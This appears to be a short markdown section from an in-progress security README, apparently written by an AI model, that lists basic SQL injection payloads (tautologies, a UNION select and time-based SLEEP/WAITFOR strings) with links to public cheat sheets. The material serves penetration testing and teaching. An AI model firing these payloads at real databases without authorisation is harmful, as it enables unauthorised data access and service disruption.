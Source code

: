# SQL Injection Payload Collection

This section includes basic SQLi payloads useful for detection, enumeration, and bypass testing. Refer to the linked cheat sheets for full sets and advanced techniques.

---

## 📚 References

- [PortSwigger SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)  
- [PayloadBox SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list)

---

## 🧪 Basic SQL Injection Payloads

```sql
' OR '1'='1
' or 1=1 limit 5 --
' UNION SELECT null, null, null; --
' OR 1=1; WAITFOR DELAY
SLEEP(5) /*' or SLEEP(5) or '" or SLEEP(5) or "*/
```

---

Let me know when you’re ready for the next section, or if you'd like to start assembling the full README together with TOC and headers!
